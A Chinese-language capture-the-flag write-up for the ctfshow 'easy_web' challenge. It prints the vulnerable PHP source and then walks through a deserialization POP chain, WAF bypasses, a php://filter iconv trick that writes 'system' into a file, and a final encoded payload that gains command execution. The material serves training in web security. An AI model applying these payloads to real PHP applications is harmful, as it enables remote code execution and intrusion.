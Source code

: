 # ctfshow easy_web

## 1、源码

```
开胃小菜，就让我成为签到题叭 <?php
header('Content-Type:text/html;charset=utf-8');
error_reporting(0);

function waf1($Chu0){
    foreach ($Chu0 as $name => $value) {
        if(preg_match('/[a-z]/i', $value)){
            exit("waf1");
        }
    }
}
 
function waf2($Chu0){
    if(preg_match('/show/i', $Chu0))
        exit("waf2");
}
 
function waf_in_waf_php($a){
    $count = substr_count($a,'base64');
    echo "hinthinthint,base64喔"."<br>";
    if($count!=1){
        return True;
    }
    if (preg_match('/ucs-2|phar|data|input|zip|flag|\%/i',$a)){
        return True;
    }else{
        return false;
    }
}
 
class ctf{
    public $h1;
    public $h2;
 
    public function __wakeup(){
        throw new Exception("fastfast");
    }
 
    public function __destruct()
    {
        $this->h1->nonono($this->h2);
    }
}
 
class show{
    public function __call($name,$args){
        if(preg_match('/ctf/i',$args[0][0][2])){
            echo "gogogo";
        }
    }
}
 
class Chu0_write{
    public $chu0;
    public $chu1;
    public $cmd;
    public function __construct(){
        $this->chu0 = 'xiuxiuxiu';
    }
 
    public function __toString(){
        echo "__toString"."<br>";
        if ($this->chu0===$this->chu1){
            $content='ctfshowshowshowwww'.$_GET['chu0'];
            if (!waf_in_waf_php($_GET['name'])){
                file_put_contents($_GET['name'].".txt",$content);
            }else{
                echo "绕一下吧孩子";
            }
                $tmp = file_get_contents('ctfw.txt');
                echo $tmp."<br>";
                if (!preg_match("/f|l|a|g|x|\*|\?|\[|\]| |\'|\<|\>|\%/i",$_GET['cmd'])){
                    eval($tmp($_GET['cmd']));
                }else{
                    echo "waf!";
                }
 
            file_put_contents("ctfw.txt","");
        }
        return "Go on";
        }
}
 
if (!$_GET['show_show.show']){
    echo "开胃小菜，就让我成为签到题叭";
    highlight_file(__FILE__);
}else{
    echo "WAF,启动！";
    waf1($_REQUEST);
    waf2($_SERVER['QUERY_STRING']);
    if (!preg_match('/^[Oa]:[\d]/i',$_GET['show_show.show'])){
        unserialize($_GET['show_show.show']);
    }else{
        echo "被waf啦";
    }
}
```

## 2、解题思路

* 思路很清晰，一个POP链，绕过三个WAF，一个正则，一个__wakeup，然后写shell进文件，最后经过正则后RCE，POP链，比较简单，但是有坑

```
ctf() __destruct -> show() __call -> Chu0_write __toString
```

## 3、步骤

* 

```
<?php
 
class ctf{
    public $h1;
    public $h2;
 
}
 
class show{
 
}
 
class Chu0_write{
    public $chu0;
    public $chu1;
    public $cmd;
}
 
$a=new ctf();
$a->h1=new show();
$a->h2=[[2=>new Chu0_write()]];  //注意这里的参数是ctf()的h2
                                 //__call($name,$args)中的$args已经是一个数组,所h2只用嵌套两层即可
 
echo serialize($a);
```

### 1、第一层warf

* waf1就是我们传递的参数值中不能含有a-z和A-Z，由于$_REQUEST的传参中POST的优先级比GET高，我们可以POST复制传递题目让我们GET的参数，waf1就会匹配POST的数据而忽略GET，从而绕过

### 2、第二层warf

* waf2就是让我们GET传参中不能含有show，可是不论是参数还是POP链中都有show，这时我们就可以url编码绕过，注意这里还有个隐藏考点就是我之前讲过的传参规则，`show_show.show`需要写成`show[show.show`

根据上述思路传参后，成功进入到toString内，代码提示用base64，联想到`php://filter`的伪协议，用`php://filter/convert.base64-encode/resource=ctfw`，让原来的内容乱码，从而执行我base64写入的方法，但是本地测试后发现不行，原因是因为他这里是将文件的内容当成一个函数，前面数据无论是什么，在拼接你写的内容后PHP都无法识别这个函数从而报错，除非前面的内容是比如php，你在后面拼接info，最后内容是phpinfo()，这时是PHP定义了的函数，语法上才不会报错，才会执行

### 3、toStrting内容注入

* 可以让原来的内容即ctfshowshowshowwww，经过filter里的过滤器过滤后，变成不是base64里面可编码的字符比如 #@等，再将我们要执行的方法比如system，进行利用iconv进行utf-8(因为我们现在是utf-8编码)转成任意filter支持的字符编码(比如utf-16)

```
<?php
 
$b ='system';
 
$payload = iconv('utf-8', 'utf-16', base64_encode($b));  //utf-16这里可以换成任意filter支持的字符编码
 
file_put_contents('payload.txt', quoted_printable_encode($payload));  
//quoted_printable_encode这就是个特殊编码,目的只是为了可视化，因为编码后会乱码，
                                                                              
//应该也可以用urlencode($payload)，但是urlencode($payload)我本地测试是可以的，但题目环境不行
 
$s = file_get_contents('payload.txt');
 
$s = preg_replace('/=\r\n/', '', $s);
 
echo $s;
```

* 然后利用php://filter/convert.quoted-printable-decode/convert.iconv.utf-16.utf-8/convert.base64-decode/resource=ctfw，这就是个求逆的过程，把我们convert.quoted-printable-encode进行decode，convert.iconv.utf-16.utf-8 将utf-16转回utf-8，最后convert.base64-decode进行base64解码，我们的写入的数据就恢复成system，而之前的内容即ctfshowshowshowwww，会在/convert.quoted-printable-decode/convert.iconv.utf-16.utf-8后乱码并且无法进行base64解码，这时/convert.base64-decode/就会过滤掉非base64字符把原来的数据清空。最后打印环境变量即可得到flag

## 4、最终payload

```
GET：?%73%68%6f%77[%73%68%6f%77.%73%68%6f%77=%43%3a%31%31%3a%22%41%72%72%61%79%4f%62%6a%65%63%74%22%3a%31%36%34%3a%7b%78%3a%69%3a%30%3b%61%3a%31%3a%7b%73%3a%39%3a%22%67%78%6e%67%78%6e%67%78%6e%22%3b%4f%3a%33%3a%22%63%74%66%22%3a%32%3a%7b%73%3a%32%3a%22%68%31%22%3b%4f%3a%34%3a%22%73%68%6f%77%22%3a%30%3a%7b%7d%73%3a%32%3a%22%68%32%22%3b%61%3a%31%3a%7b%69%3a%30%3b%61%3a%31%3a%7b%69%3a%32%3b%4f%3a%31%30%3a%22%43%68%75%30%5f%77%72%69%74%65%22%3a%33%3a%7b%73%3a%34%3a%22%63%68%75%30%22%3b%4e%3b%73%3a%34%3a%22%63%68%75%31%22%3b%4e%3b%73%3a%33%3a%22%63%6d%64%22%3b%4e%3b%7d%7d%7d%7d%7d%3b%6d%3a%61%3a%30%3a%7b%7d%7d&name=php://filter/convert.quoted-printable-decode/convert.iconv.utf-16.utf-8/convert.base64-decode/resource=ctfw&chu0=c=003=00l=00z=00d=00G=00V=00t=00&cmd=env

POST：show[show.show=1&name=1&chu0=1&cmd=1
```

